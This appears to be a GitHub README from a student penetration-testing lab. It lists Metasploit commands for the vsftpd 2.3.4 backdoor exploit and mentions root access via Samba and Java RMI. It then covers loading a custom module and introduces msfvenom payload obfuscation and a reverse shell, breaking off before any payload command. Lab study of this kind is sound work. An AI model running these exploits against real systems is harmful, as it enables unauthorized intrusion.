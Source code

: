 ```
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <target_ip>
set RPORT 21
exploit
```

![im1](https://github.com/Sonakhach/project-3/blob/main/Screenshot_2024-12-28_01_54_55.png)
![im1](https://github.com/Sonakhach/project-3/blob/main/Screenshot_2024-12-28_01_54_32.png)
![im1](https://github.com/Sonakhach/project-3/blob/main/Screenshot_2024-12-28_02_01_10.png)

In examples above I got root  with samba and Java RMI Service vulnerability

![samba](https://github.com/user-attachments/assets/3a76de0c-2ff8-4a9a-8649-a8dfc39ca102)


![java_rmi_vln](https://github.com/user-attachments/assets/78e61c48-9d52-4971-8767-4dd5624d150c)


##  After, try to write your own module, it doesn't have to do anything special, it just needs to load in msfconsole

https://github.com/Sonakhach/project-3/blob/main/my_test_module_for_metasploitable_mashin.rb

![im1](https://github.com/Sonakhach/project-3/blob/main/Screenshot%20from%202024-12-28%2021-36-02.png)

**Create the Module File: Create a Ruby file in the directory**

```
nano ~/.msf4/modules/exploits/custom/my_test_module.rb
```
If you want your module to do something meaningful, add a simple port-scanning logic to check if the target port is open:

**Open msfconsole, reload the modules to include the custom one, load your custom module**
```
reload_all
use exploits/custom/my_test_module
set RHOST <target_ip>
set RPORT 1234
run
```
![im1](https://github.com/Sonakhach/project-3/blob/main/Screenshot_2024-12-28_11_47_15.png)

## Using msvenom to generate payloads and obfuscate them
msfvenom is a powerful tool included with Metasploit that can generate payloads, encode them to bypass basic detection mechanisms, and even format them for specific platforms. Here's a guide on generating and obfuscating payloads using msfvenom.

**1. Generating a Payload**
   
Here’s how to create a simple reverse shell payload:/Linux Reverse Shell (ELF)/
